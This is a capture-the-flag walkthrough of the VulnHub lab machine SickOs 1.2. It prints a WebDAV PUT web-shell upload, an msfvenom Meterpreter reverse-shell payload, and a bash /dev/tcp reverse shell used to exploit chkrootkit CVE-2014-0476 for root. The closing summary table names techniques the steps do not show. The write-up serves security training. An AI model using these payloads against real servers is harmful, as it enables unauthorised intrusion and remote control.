 # SickOs-1.2
SickOs 1.2 - VulnHub Walkthrough
This is a walkthrough of the SickOs 1.2 machine from VulnHub. It’s the sequel to SickOs 1.1, and it's both more challenging and more realistic, simulating situations one might encounter during a real-world penetration test.

**🔍 Discovery**
After downloading and running the machine, we see that it was assigned the IP 192.168.2.4. A port scan using nmap reveals ports 80 (HTTP) and 22 (SSH) open.
**>Target IP: 192.168.2.4**
**>Initial Scan:**
<pre>
nmap -A -T5 192.168.2.4
root@kali:~/sickos2# nmap -A -T5 192.168.2.4

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
| 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_ 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open http lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
**Open Ports:**

**22/tcp:** SSH (OpenSSH 5.9p1)
**80/tcp:** HTTP (lighttpd 1.4.28)

**🌐 Web Enumeration**
We open a web browser, browse to http://192.168.2.4 and see the following page

The usage of **dirb** reveals the listable directory **/test.**
<pre>
root@kali:~/sickos2# dirb http://192.168.2.4
---- Scanning URL: http://192.168.2.4/ ----
+ http://192.168.2.4/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://192.168.2.4/test/

/index.php
/test/   ← Listable directory
</pre>

**WebDAV Detection**

Making a HTTP OPTIONS request on this path shows that **/test** looks like a WebDAV directory.

<pre>
root@kali:~/sickos2# curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2024 16:32:35 GMT
Server: lighttpd/1.4.28
</pre>
Supports PUT, confirming WebDAV is enabled.

**🛠 Exploitation (Web Shell Upload)**
We also note that the web server seems to accept HTTP PUT requests. The PUT method should allow us to upload arbitrary files on the web server. Let’s try it out. We create a file named **shell.php** containing the following code:
<pre>
<?php
echo shell_exec("id");
?>
</pre>

Upload using:
<pre>
  curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>
Browse to /test/shell.php to confirm code execution as www-data.


**🧠 Reverse Shell with Meterpreter**

Now that we know we can upload arbitrary PHP scripts and execute them, let’s try to spawn a shell on the machine. We use msfvenom to generate the appropriate payload.
<pre>
  root@kali:~/sickos2# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.3 LPORT=4444 > shell.php
</pre>
Note that 192.168.2.3 is the IP of our Kali box, where we will listen for the incoming reverse shell. Using the same command as before, we start by uploading this script on the server.
<pre>
root@kali:~/sickos2# curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>

Start **Metasploit listener**:
To catch our reverse shell.
<pre>

root@kali:~/sickos2# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.2.3:4444 
[*] Starting the payload handler...

</pre>

Then, from another terminal, we trigger the PHP script that will connect back to our attacking machine.
<pre>
  root@kali:~/sickos2# curl 192.168.2.4/test/shell.php
  > ls
execute.php
shell.php
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

**📈 Privilege Escalation**
Check installed packages:**chkrootkit** is present (v0.49)

Vulnerable to **CVE-2014-0476**

Exploiting CVE-2014-0476
Write to /tmp/update:
<pre>
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.3/443 0>&1
</pre>  
Make it executable:
<pre>
  chmod +x /tmp/update
</pre>
Start listener:
<pre>
  nc -lvp 443
</pre>
Since chkrootkit seems to only run daily, we expect to have to wait until the next day to obtain a root shell. Surprisingly, it comes to us after a few minutes like an early Christmas present
We can now get the flag, located in the /root directory.
**🏁 Getting the Flag**
<pre>
  cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
</pre>
**🔐 Firewall Rules (/root/newRule)**
<pre>
  INPUT: DROP (only allows ports 22, 80)
OUTPUT: DROP (allows outbound 443, 8080)
</pre>
**⏱ Chkrootkit Cron Schedule**
Despite being in /etc/cron.daily/, it also exists in:
<pre>
/etc/cron.d/chkrootkit  
</pre>

**Summary**
<pre>

| Phase           | Technique Used                               |
| --------------- | -------------------------------------------- |
| Enumeration     | Nmap, Dirb, WebDAV detection                 |
| Initial Access  | PUT PHP file upload                          |
| Reverse Shell   | Meterpreter + Netcat fallback                |
| Firewall Bypass | Netcat-based port scanning                   |
| PrivEsc         | CVE-2014-0476 via chkrootkit & cron abuse    |
| Root Access     | Netcat listener + shell script               |
| Flag            | `/root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt` |

</pre>













